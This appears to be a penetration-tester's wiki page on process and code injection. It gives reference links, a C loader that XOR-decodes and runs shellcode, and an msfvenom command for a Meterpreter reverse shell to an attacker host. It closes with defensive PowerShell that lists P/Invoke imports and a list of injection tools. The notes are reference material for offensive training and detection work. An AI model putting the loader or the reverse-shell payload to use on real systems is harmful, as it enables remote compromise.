 # Code Injection

* [https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process](https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process)
* [https://blog.xpnsec.com/weird-ways-to-execute-dotnet/](https://blog.xpnsec.com/weird-ways-to-execute-dotnet/)




## Shellcode as Function

* [http://disbauxes.upc.es/code/two-basic-ways-to-run-and-test-shellcode/](http://disbauxes.upc.es/code/two-basic-ways-to-run-and-test-shellcode/)
* [https://www.fergonez.net/post/shellcode-csharp](https://www.fergonez.net/post/shellcode-csharp)
* [https://www.ired.team/offensive-security/code-injection-process-injection/local-shellcode-execution-without-windows-apis](https://www.ired.team/offensive-security/code-injection-process-injection/local-shellcode-execution-without-windows-apis)
* [https://github.com/byt3bl33d3r/OffensiveNim/issues/16](https://github.com/byt3bl33d3r/OffensiveNim/issues/16)
* [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Loaders/simpleLoader.c](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Loaders/simpleLoader.c)

Linux example. Compile allowing execution on stack:

```
$ gcc -o loader loader.c -z execstack
```

{% code title="loader.c" %}
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.13.37 LPORT=1337 -f c -o met.c --encrypt xor --encrypt-key a
unsigned char buf[] = 
"\x31\x33...\x33\x37";

int main (int argc, char **argv)
{
	int bufsize = (int)sizeof(buf);
	for (int i = 0; i < bufsize-1; i++) { buf[i] = buf[i] ^ 'a'; }
	int (*ret)() = (int(*)())buf;
	ret();
}
```
{% endcode %}


## Detection

Show P/Invoke imports in a .NET assembly with `System.Reflection.Metadata` and PowerShell Core (stolen from [1](https://stackoverflow.com/q/71456804/6253579), [2](https://stackoverflow.com/a/54775040/6253579)):

```powershell
$assembly = "\path\to\csharp\binary.exe"
$stream = [System.IO.File]::OpenRead($assembly)
$peReader = [System.Reflection.PortableExecutable.PEReader]::new($stream, [System.Reflection.PortableExecutable.PEStreamOptions]::LeaveOpen -bor [System.Reflection.PortableExecutable.PEStreamOptions]::PrefetchMetadata)
$metadataReader = [System.Reflection.Metadata.PEReaderExtensions]::GetMetadataReader($peReader)
$assemblyDefinition = $metadataReader.GetAssemblyDefinition()

foreach($typeHandler in $metadataReader.TypeDefinitions) {
    $typeDef = $metadataReader.GetTypeDefinition($typeHandler)
    foreach($methodHandler in $typeDef.GetMethods()) {
        $methodDef = $metadataReader.GetMethodDefinition($methodHandler)

        $import = $methodDef.GetImport()
        if ($import.Module.IsNil) {
            continue
        }

        $dllImportFuncName = $metadataReader.GetString($import.Name)
        $dllImportParameters = $import.Attributes.ToString()
        $dllImportPath = $metadataReader.GetString($metadataReader.GetModuleReference($import.Module).Name)
        Write-Host "$dllImportPath, $dllImportParameters`n$dllImportFuncName`n"
    }
}
```

Another [method](https://twitter.com/vinopaljiri/status/1508447487048261641) with a PowerShell one-liner:

```powershell
([System.Reflection.Assembly]::LoadFile("\path\to\csharp\binary.exe")).GetTypes() | % {$_.GetMethods([Reflection.BindingFlags]::Public -bxor [Reflection.BindingFlags]::NonPublic -bxor [Reflection.BindingFlags]::Static) | ? {$_.Attributes -band [Reflection.MethodAttributes]::PinvokeImpl}} | fl -Property Name,DeclaringType,CustomAttributes
```




## Tools

* [https://github.com/0xDivyanshu/Injector](https://github.com/0xDivyanshu/Injector)
* [https://github.com/jfmaes/SharpZipRunner](https://github.com/jfmaes/SharpZipRunner)
* [https://github.com/plackyhacker/Shellcode-Injection-Techniques](https://github.com/plackyhacker/Shellcode-Injection-Techniques)
